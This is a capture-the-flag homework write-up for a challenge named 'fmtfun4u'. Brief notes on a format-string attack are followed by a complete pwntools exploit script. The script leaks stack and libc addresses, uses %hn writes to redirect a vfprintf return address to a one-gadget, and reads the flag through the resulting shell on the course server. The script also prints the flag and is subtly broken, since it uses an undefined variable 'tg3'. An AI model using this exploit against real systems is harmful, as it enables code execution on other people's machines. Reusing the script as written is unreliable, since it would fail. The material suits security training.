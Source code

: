 # HW3
## fmtfun4u 150
* First time `fmt` to leak `stack` and `libc`.
* `Fmt` to using `arg11` modify the first two significant byte of the pointer which `arg11` point to.
* `[arg11]` -> `stack address store return address of _IO_vfprintf_internal`.
* Choosing this return address due to we only need to modify two byte of it.
* old -> `libc + 0x4fef1` , mod -> `libc + 0x4526a`.
* Third `fmt` is to modify return address of `vfprint` to `one`.
* Got the shell.

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{FEED_MY_TURTLE}

context.arch = 'amd64'

e , l = ELF('./fmtfun4u') , ELF('./libc.so.6')

host , port = 'csie.ctf.tw' , 10136

y = remote(host,port)
#y = process( './fmtfun4u' , env = {'LD_PRELOAD':'./libc.so.6'} )
#print util.proc.pidof(y)
#raw_input('>')

'''
6 -> cal
11 -> jmp
37 -> target

base: 0x7ffff7a0d000
0x7ffff7a5a4a6 0x4d4a6
return address of _IO_vfprintf_internal is 0x7ffff7a5cef1 <vfprint>
0x7ffff7a5cef1 0x4fef1
one            0x4526a
'''

p = '%6$p.%10$p.%9$p.' #leak
y.sendafter( ':' , p )

y.recvuntil('0x')
stk = int( y.recvuntil('.')[:-1] , 16 )
y.recvuntil('0x')
stk2 = int( y.recvuntil('.')[:-1] , 16 )
y.recvuntil('0x')
l.address += int( y.recvuntil('.')[:-1] , 16 ) - 0x20830

tg = stk - 0x28a8
magic = 0x4526a

log.success( 'stack ->   {}'.format( hex( stk ) ) )
log.success( 'Target -> {}'.format( hex( tg ) ) )
log.success( 'Target_mod -> {}'.format( hex( tg & 0xffff ) ) )
log.success( 'libc -> {}'.format( hex( l.address ) ) )
log.success( 'one -> {}'.format( hex( l.address + magic ) ) )

p = '%.{}x%11$hn\x00'.format( str( tg3 & 0xffff ) ) # use pointer1 mod pointer2
print p
y.sendlineafter( ':' , p )
sleep(1)

p = '%.{}x%37$hn\x00'.format( str( (l.address + magic) & 0xffff ) ) # use pointer2 mod return address in libc -> one
print len(p)
y.send( p )

sleep(1)

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```